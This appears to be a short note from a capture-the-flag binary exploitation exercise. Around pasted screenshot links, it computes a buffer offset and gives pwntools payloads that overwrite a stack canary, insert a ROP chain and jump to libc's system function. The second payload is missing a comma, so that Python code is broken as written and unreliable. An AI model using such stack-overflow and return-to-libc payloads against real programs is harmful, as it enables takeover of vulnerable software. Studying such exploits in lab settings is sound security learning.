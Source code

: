 
![[Pasted image 20240121224128.png]]
![[Pasted image 20240121224352.png]]

0x10-0x58 = 0x48 = 72

---

```py
>>> io.sendline(flat({
	72: canary,
	88: rop.build()
}))
```

---

![[Pasted image 20240121224927.png]]

`system + 0x2c`

---

```py
>>> io.sendline(flat({
	72: canary,
	88: libc.sym['system'] + 0x2c
	96: rop.build()
}))
```
